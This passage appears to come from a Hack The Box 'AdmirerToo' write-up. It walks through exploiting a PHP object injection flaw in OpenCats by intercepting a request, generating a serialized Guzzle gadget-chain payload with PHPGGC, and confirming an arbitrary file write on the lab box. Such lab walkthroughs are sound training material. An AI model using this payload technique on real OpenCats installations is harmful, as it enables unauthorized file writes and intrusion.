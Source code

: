 There is a [blog by Snoopy Security](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html) that explains how to exploit that CVE, we can read and follow along.

### Exploiting OpenCats
For this to work we need to switch to activities tab, click on `date` and intercept the request in Burp Suite:
```
GET /index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A8%3A%7Bs%3A10%3A%22rangeStart%22%3Bi%3A0%3Bs%3A10%3A%22maxResults%22%3Bi%3A15%3Bs%3A13%3A%22filterVisible%22%3Bb%3A0%3Bs%3A9%3A%22startDate%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22endDate%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22period%22%3Bs%3A37%3A%22DATE_SUB%28CURDATE%28%29%2C+INTERVAL+1+MONTH%29%22%3Bs%3A6%3A%22sortBy%22%3Bs%3A15%3A%22dateCreatedSort%22%3Bs%3A13%3A%22sortDirection%22%3Bs%3A4%3A%22DESC%22%3B%7D HTTP/1.1
Host: localhost:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:9000/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A8%3A%7Bs%3A10%3A%22rangeStart%22%3Bi%3A0%3Bs%3A10%3A%22maxResults%22%3Bi%3A15%3Bs%3A13%3A%22filterVisible%22%3Bb%3A0%3Bs%3A9%3A%22startDate%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22endDate%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22period%22%3Bs%3A37%3A%22DATE_SUB%28CURDATE%28%29%2C+INTERVAL+1+MONTH%29%22%3Bs%3A6%3A%22sortBy%22%3Bs%3A15%3A%22dateCreatedSort%22%3Bs%3A13%3A%22sortDirection%22%3Bs%3A3%3A%22ASC%22%3B%7D
Cookie: CATS=pi6tu18gi6s644ab6doit1ll37
Upgrade-Insecure-Requests: 1
```

According to the blog, `activity` parameter is vulnerable. So, we need to generate serialized exploit using PHPGGC and replace it with default one. We can use https://github.com/ambionics/phpggc.
First we can simply create a file in `/dev/shm` to check its permissions and user details:
```bash
$ echo "Caue was here" > test.txt
$ phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/test.txt /home/caue/htb/admirertoo/test.txt
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A14%3A%22Caue+was+here%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Ftest.txt%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Replacing the generated serialized object above with the one in `DataGrid` parameter we get the exploit to work. If we look at `/dev/shm/` we can see our file:
```bash
jennifer@admirertoo:/dev/shm$ ls -la
total 4
drwxrwxrwt  2 root  root    60 Mar 24 09:10 .
drwxr-xr-x 16 root  root  3080 Mar 24 06:04 ..
-rw-r--r--  1 devel devel   57 Mar 24 09:10 test.txt
jennifer@admirertoo:/dev/shm$ cat test.txt
Caue was here
jennifer@admirertoo:/dev/shm$
```
